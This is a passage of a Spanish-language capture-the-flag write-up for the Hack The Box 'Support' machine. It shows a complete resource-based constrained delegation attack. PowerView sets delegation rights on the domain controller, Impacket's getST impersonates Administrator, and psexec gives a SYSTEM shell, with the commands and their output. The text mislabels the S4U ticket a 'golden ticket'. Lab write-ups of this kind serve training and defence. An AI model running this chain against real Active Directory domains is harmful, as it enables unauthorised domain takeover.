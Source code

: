 ##### TRANSFERIR POWERVIEW
```bash
upload /home/bast1ant1c/Desktop/bast1ant1c/HTB/AD/easy/support/recon/PowerView.ps1
```
##### IMPORTAR MODULO
```bash
Import-Module .\PowerView.ps1
```
##### CREAR CONDICIONES DE LA CUENTA DE MÁQUINA PARA EXPLOTACIÓN
```bash
Get-DomainComputer SERVICEA
```
```bash
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
```
```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```
```bash
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```
```bash
$SD.GetBinaryForm($SDBytes, 0)
```
```bash
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
```bash
Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

```bash
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

## GRANTED ACCESS ADMINISTRATOR USER (GOLDEN TICKET)

Vamos a hacer uso de la utilidad `getST` con la que obtendremos un golden ticket del usuario `Administrator` aprovechando la creación de la cuenta de máquina realizada en pasos anteriores, obteniendo acceso con `psexec`

```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:password123
```
```bash
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
```bash
export KRB5CCNAME=Administrator.ccache
```
```bash
impacket-psexec -k dc.support.htb
```
```bash
whoami
```
```bash
nt authority\system
```